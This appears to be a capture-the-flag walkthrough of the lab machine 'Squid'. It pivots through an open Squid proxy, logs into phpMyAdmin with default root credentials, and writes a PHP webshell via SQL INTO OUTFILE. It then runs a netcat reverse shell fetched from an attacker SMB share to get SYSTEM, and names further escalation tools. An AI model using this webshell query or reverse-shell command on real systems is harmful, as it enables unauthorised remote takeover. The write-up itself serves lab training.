 # Squid

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.233.189
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 15:29 +08
Nmap scan report for 192.168.233.189
Host is up (0.17s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
3128/tcp open  squid-http
```

Only one port is open.

### Squid Proxy --> FoxyProxy

The port was a Squid Proxy instance. When visited in a browser, this is all we see:

<figure><img src="../../../.gitbook/assets/image (45) (1).png" alt=""><figcaption></figcaption></figure>

Since this is a proxy service, it might be the gateway that we need to access the services running on the machine itself. To scan the machine, we can include this line in our `/etc/proxychains4.conf` file:

```
socks5 192.168.233.189 3128
```

Afterwards, we can use `proxychains` to scan the machine again to find more ports that are open,  but this takes far too long. Instead, we can use FoxyProxy to attempt to view some interesting ports. I tried with a few ports like 80, 443 and 8080 for websites, and found a service on port 8080.

<figure><img src="../../../.gitbook/assets/image (5) (3) (3).png" alt=""><figcaption></figcaption></figure>

### Default Creds --> SQL RCE

There's a PHPMyAdmin instance present on the page, and we can login using `root` as the username with no password.

<figure><img src="../../../.gitbook/assets/image (21) (1) (6).png" alt=""><figcaption></figcaption></figure>

Since this is already the administrative interface, we can get a shell by creating a database and then executing some SQL commands in it via the web SQL interpreter.&#x20;

<figure><img src="../../../.gitbook/assets/image (101) (4) (2).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can select this database and head to the QUERY tab:

<figure><img src="../../../.gitbook/assets/image (104) (4).png" alt=""><figcaption></figcaption></figure>

We can test it with any query and see that it is indeed processing SQL queries:

<figure><img src="../../../.gitbook/assets/image (102) (5).png" alt=""><figcaption></figcaption></figure>

Since we can submit queries, we can also write files into the file system of the machine. I wanted to write a basic PHP webshell, but this means we need to know the webroot file. Very conveniently, there's a `phpinfo` page on the main Wampserver page.&#x20;

There, we can find the `DOCUMENT_ROOT`:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can then use this query to write a webshell onto the machine:

```sql
SELECT '<?php system($_GET["cmd"]); ?>' into outfile "C:\\wamp\\www\\backdoor.php"
```

<figure><img src="../../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can test our RCE:

<figure><img src="../../../.gitbook/assets/image (159) (3).png" alt=""><figcaption></figcaption></figure>

Great! No all we need to do is get a reverse shell as the user. By setting up a SMB server on our machine with `nc64.exe` within the directory, we can send this to get a shell:

```
http://192.168.233.189:8080/backdoor.php?cmd=\\192.168.45.161\share\nc64.exe+-e+cmd.exe+192.168.45.161+4444
```

<figure><img src="../../../.gitbook/assets/image (157) (7).png" alt=""><figcaption></figcaption></figure>

There is no privilege escalation, because we have successfully gotten a SYSTEM shell.&#x20;

{% hint style="info" %}
This machine was changed since I last did it in 2022. My older writeups show that the machine was running as LOCAL SYSTEM instead of the SYSTEM user.

The old box would give us intial access with the LOCAL SYSTEM user without any privileges, and we had to use either schtasks or FullPowers.exe to give us a shell with the full privileges of a LOCAL SYSTEM user that includes SeImpersonatePrivilege, which we can then use PrintSpoofer.exe or JuicyPotato.exe to get a SYSTEM shell.
{% endhint %}
